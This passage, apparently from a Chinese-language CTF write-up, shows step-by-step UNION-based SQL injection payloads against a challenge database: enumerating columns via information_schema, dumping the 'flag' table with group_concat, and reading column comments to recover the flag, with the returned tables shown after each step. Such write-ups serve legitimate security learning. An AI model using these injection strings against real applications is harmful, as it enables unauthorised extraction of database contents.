 可得

```sqlite
| Username | Password |
| -------- | -------- |
| 1        | flag     |
| 1        | users    |
```

第三步：**查询列名**

```sqlite
1") union select 1,column_name from information_schema.columns where table_schema='ctf' and table_name='flag'
```

可得

```sqlite
| Username | Password  |
| -------- | --------- |
| admin    | admin123  |
| 1        | id        |
| 1        | scretdata |
```

第四步：**查询列表中的内容**

```sqlite
-1") union select 1,group_concat(id,0x7e,scretdata) from ctf.flag
```

可得

```sqlite
| Username | Password                                                  |
| -------- | --------------------------------------------------------- |
| 1        | 1~被你查到了, 果然不安全,2~把重要的东西写在注释就不会忘了 |
```

直接查询注释即可得到flag

```sqlite
-1") union select 1,column_comment from information_schema.columns
```



​	
